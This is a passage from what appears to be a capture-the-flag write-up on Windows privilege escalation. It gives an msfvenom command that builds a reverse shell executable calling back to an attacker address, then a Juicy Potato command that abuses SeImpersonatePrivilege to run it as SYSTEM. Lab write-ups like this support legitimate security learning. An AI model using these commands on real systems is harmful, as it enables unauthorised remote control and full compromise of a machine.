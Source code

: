 - Next, I generated a reverse shell payload using msfvenom:

bash

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=1337 -f exe -o reverse.exe
```

- Then uploaded this reverse shell executable:

![Pasted image 20250519213413.png](images/Pasted_image_20250519213413.png)

- Finally, I executed Juicy Potato with the following command to trigger my reverse shell as NT AUTHORITY\SYSTEM:

bash

```bash
jp.exe -l 1337 -t * -p reverse.exe
```

- How Juicy Potato works:
    - It abuses the SeImpersonatePrivilege to create a COM server and forces Windows to authenticate to it
    - It then captures and impersonates that high-privilege token
    - Finally, it launches our payload with those elevated privileges

![Pasted image 20250519213829.png](images/Pasted_image_20250519213829.png)

- Success! I obtained the root flag:
